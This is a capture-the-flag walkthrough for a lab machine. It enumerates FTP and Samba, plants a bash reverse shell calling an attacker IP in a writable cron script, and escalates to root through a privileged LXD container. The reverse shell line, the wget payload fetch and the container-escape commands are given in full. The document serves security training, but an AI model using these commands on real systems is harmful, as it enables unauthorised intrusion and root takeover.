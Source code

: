 # IP
```
10.10.232.97
```

# Enumerate the machine.  How many ports are open?

I scan the IP with nmap:
`sudo nmap -sSV 10.10.232.97 -T4`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 17:29 CET
Nmap scan report for 10.10.232.97
Host is up (0.34s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.82 seconds
```

There are 4 open ports

# What service is running on port 21?
`ftp`

# What service is running on ports 139 and 445?

It is Samba so the answer will be `smb`

# There's a share on the user's computer.  What's it called?

I used `enum4linux`, you may download it here `https://github.com/cddmp/enum4linux-ng`

It is also preinstalled on Kali

`python3 enum4linux-ng.py -As 10.10.232.97`

gives

```
======================================
|    Shares via RPC on 10.10.232.97    |
 ======================================
[*] Enumerating shares
[+] Found 3 share(s):
IPC$:
  comment: IPC Service (anonymous server (Samba, Ubuntu))
  type: IPC
pics:
  comment: My SMB Share Directory for Pics
  type: Disk
print$:
  comment: Printer Drivers
  type: Disk
```

Correct answer is `pics`

There are two files with puppies and in the beginning I thought it is a stegno challenge but arrived to a dead end.

=====================

Two last questions demand finding user.txt and root.txt.
As I do not find any access or files on Samba, my idea was to access ftp server so:

- `ftp $IP` and username `anonymous` gives me an access to ftp server. 
- I type `ls -al` and see there is a directory `scripts` with 3 files inside, so I download all of them

```
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         2881 Dec 10 17:11 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

A script `clean.sh` removes files in /tmp/ directory and writes a date to .log file. Otherwise, it writes an information there is nothing to delete. This looks like a way to get a reverse shell somehow.

After some googling I find and add a bash line to the script which finally looks like this:

```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
	bash -i >& /dev/tcp/10.2.46.111/4444 0>&1
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Afterwards, I firstly run a netcat listener `nc -lvnp 4444` and access ftp once again. There is an option to `append` a script so I type:

append, then choose clean.sh and once again clean.sh.

Once done, I get a shell in another window as netcat catches execution of a script.

```
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.232.97 35724
bash: cannot set terminal process group (1558): Inappropriate ioctl for device
bash: no job control in this shell
```

I list all files which gives me `user.txt` file and first flag:

```
namelessone@anonymous:~$ ls -al
ls -al
total 60
drwxr-xr-x 6 namelessone namelessone 4096 May 14  2020 .
drwxr-xr-x 3 root        root        4096 May 11  2020 ..
lrwxrwxrwx 1 root        root           9 May 11  2020 .bash_history -> /dev/null
-rw-r--r-- 1 namelessone namelessone  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 namelessone namelessone 3771 Apr  4  2018 .bashrc
drwx------ 2 namelessone namelessone 4096 May 11  2020 .cache
drwx------ 3 namelessone namelessone 4096 May 11  2020 .gnupg
-rw------- 1 namelessone namelessone   36 May 12  2020 .lesshst
drwxrwxr-x 3 namelessone namelessone 4096 May 12  2020 .local
drwxr-xr-x 2 namelessone namelessone 4096 May 17  2020 pics
-rw-r--r-- 1 namelessone namelessone  807 Apr  4  2018 .profile
-rw-rw-r-- 1 namelessone namelessone   66 May 12  2020 .selected_editor
-rw-r--r-- 1 namelessone namelessone    0 May 12  2020 .sudo_as_admin_successful
-rw-r--r-- 1 namelessone namelessone   33 May 11  2020 user.txt
-rw------- 1 namelessone namelessone 7994 May 12  2020 .viminfo
-rw-rw-r-- 1 namelessone namelessone  215 May 13  2020 .wget-hsts

```

```
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 
```

# What is the root.txt

This is a very vast stage.
- I used linpeas (to find any priviledge escalation)
- I realized we can get root by exploiting LXD containers as user `namelessone` is in sudo group.
- We need to build an alpine lxd container and then copy it to a vulnerable machine
https://github.com/saghul/lxd-alpine-builder

 `sudo ./build-alpine -a i686` to get a 32 bit container

 - Once contaner is done I run a python server on my machine `python3 -m http.server 8000`

 and then download created container by typing:
 `wget 10.2.46.111:8000/alpine-v3.12-i686-20201210_1850.tar.gz
`
on attacked machine

- `lxc image import alpine-v3.12-i686-20201210_1850.tar.gz --alias alpine`

which creates a container so `lxc image list` shows it

- `lxc init 628ad6314b9a privesc -c security.privileged=true`
creates a container (it is possible to type alpine instead of fingerprint)

- I list the container:

`lxc list`

```
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
```

- We add a hard disk to container
`lxc config device add privesc host-root disk source=/ path=/mnt/root
`

- Then we start a container and become root
```
namelessone@anonymous:~$ lxc start privesc  
lxc start privesc
namelessone@anonymous:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
whoami
root
```

and finally get the flag

```
cd /mnt/root/root
cat root.txt
4d930091c31a622a7ed10f27999af363
```


